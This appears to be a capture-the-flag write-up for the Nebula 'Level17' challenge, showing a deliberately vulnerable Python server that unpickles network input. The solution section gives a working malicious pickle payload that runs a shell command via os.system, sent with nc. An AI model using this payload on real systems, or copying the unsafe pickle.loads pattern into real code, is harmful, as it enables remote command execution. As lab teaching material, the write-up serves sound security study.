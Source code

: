 # Level17

#### About

There is a python script listening on port 10007 that contains a vulnerability. 
To do this level, log in as the level17 account with the password level17. Files for this level can be found in /home/flag17. 


#### Source code

```
#!/usr/bin/python

import os
import pickle
import time
import socket
import signal

signal.signal(signal.SIGCHLD, signal.SIG_IGN)

def server(skt):
	line = skt.recv(1024)

	obj = pickle.loads(line)

	for i in obj:
		clnt.send("why did you send me " + i + "?\n")

skt = socket.socket(socket.AF_INET, socket.SOCK_STREAM, 0)
skt.bind(('0.0.0.0', 10007))
skt.listen(10)

while True:
	clnt, addr = skt.accept()

	if(os.fork() == 0):
		clnt.send("Accepted connection from %s:%d" % (addr[0], addr[1]))
		server(clnt)
		exit(1)
```

#### Soltions

```
level17@nebula:~$ cat /tmp/lv17.txt 
cos
system
(S'getflag > /tmp/pwnie17'
tR.
level17@nebula:~$ nc 192.168.1.106 10007 </tmp/lv17.txt 
Accepted connection from 192.168.1.106:41703
^C
level17@nebula:~$ cat /tmp/pwnie17 
You have successfully executed getflag on a target account
```

#### Recommneds

http://www.slideshare.net/sensepost/sour-pickles
